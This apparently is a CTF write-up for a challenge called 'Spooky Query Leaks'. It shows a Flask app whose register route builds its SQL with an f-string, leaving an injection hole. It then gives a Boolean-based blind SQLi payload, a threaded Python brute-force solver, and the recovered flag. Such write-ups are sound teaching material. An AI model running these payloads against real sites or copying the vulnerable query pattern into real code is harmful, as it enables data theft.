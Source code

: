 ## Spooky Query Leaks [450]
In this challenge, we found an SQL injection vulnerability in the register form because of a lack of sanitization on the input parameters, allowing us to perform a Boolean-based SQLi attack. This can be exploited to read the contents of the `flag` table and obtain the flag.

### Source Code
```python
from flask import Flask, render_template, request, redirect, session, g
from werkzeug.security import generate_password_hash, check_password_hash
import sqlite3

app = Flask(__name__)
app.secret_key = 'REDACTED'

DATABASE = 'challenge.db'

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
        db.row_factory = sqlite3.Row
    return db

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        cursor = get_db().cursor()
        try:
            cursor.execute(f"INSERT INTO users (username, password) VALUES ('{username}', '{generate_password_hash(password)}')")
            get_db().commit()
            return redirect('/login')
        except sqlite3.IntegrityError:
            return "Username already taken."

    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        cursor = get_db().cursor()

        cursor.execute("SELECT * FROM users WHERE username = ?", (username,))
        user = cursor.fetchone()

        if user and check_password_hash(user['password'], password):
            session['username'] = user['username']
            return redirect('/dashboard')
        else:
            return "Invalid credentials."

    return render_template('login.html')

@app.route('/dashboard')
def dashboard():
    if 'username' not in session:
        return redirect('/login')

    username = session['username']
    cursor = get_db().cursor()

    if username == 'admin':
        cursor.execute("SELECT flag FROM flags")
        flag = cursor.fetchone()['flag']
        return render_template('dashboard.html', username=username, flag=flag)

    return render_template('dashboard.html', username=username, flag=None)

if __name__ == '__main__':
    app.run(debug=False)

```

As seen in the code, the register input is inserted directly without sanitization, which allows us to use Boolean-based SQLi to read the `flag` table. Below is the payload:
```sql
bian' || (SELECT 'tr' WHERE SUBSTR((SELECT flag FROM flags),1,1)='FUZZ') || 'tue
```

The above code reads the first element of the `flag` column in the `flags` table. If the first element is FUZZ, the registration will succeed; otherwise, it will fail. Here is the solver code.

```python
import requests
import concurrent.futures

# URL endpoint
url = 'https://usc-spookyql.chals.io/1596345a-537d-4b96-af71-de75ded8fad0/'

# Function to register a username
def regis(data):
    response = requests.post(url + 'register', data)
    return response.text

fuzz = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789

0{}_!@#$%^&*()-'
flag = ''

# Function to test one character at a specific position
def try_character(i, a):
    data = {
        "username": f"my' || (SELECT 'tr' WHERE SUBSTR((SELECT flag FROM flags),{i},1)='{a}') || 'ue{i}",
        "password": "abc"
    }
    out = regis(data)
    return (i, a, out)

# Main function to brute-force each position of the flag
for i in range(1, 50):
    with concurrent.futures.ThreadPoolExecutor() as executor:
        # Create threads to test each character in 'fuzz'
        futures = {executor.submit(try_character, i, a): a for a in fuzz}
        
        for future in concurrent.futures.as_completed(futures):
            a = futures[future]
            try:
                pos, char, output = future.result()
                print(i)
                # If the response shows that the character is correct, add it to the flag
                if 'Username already taken' not in output:
                    flag += char
                    print(output)
                    print(f"Flag so far: {flag}")
                    break  # Stop searching if the correct character is found
            except Exception as e:
                print(f"Error with character {a} at position {i}: {e}")

print(f"Final flag: {flag}")

```

```
CYBORG{Wh4t_h4pp3n3d_t0_my_p4ssw0rd!}
```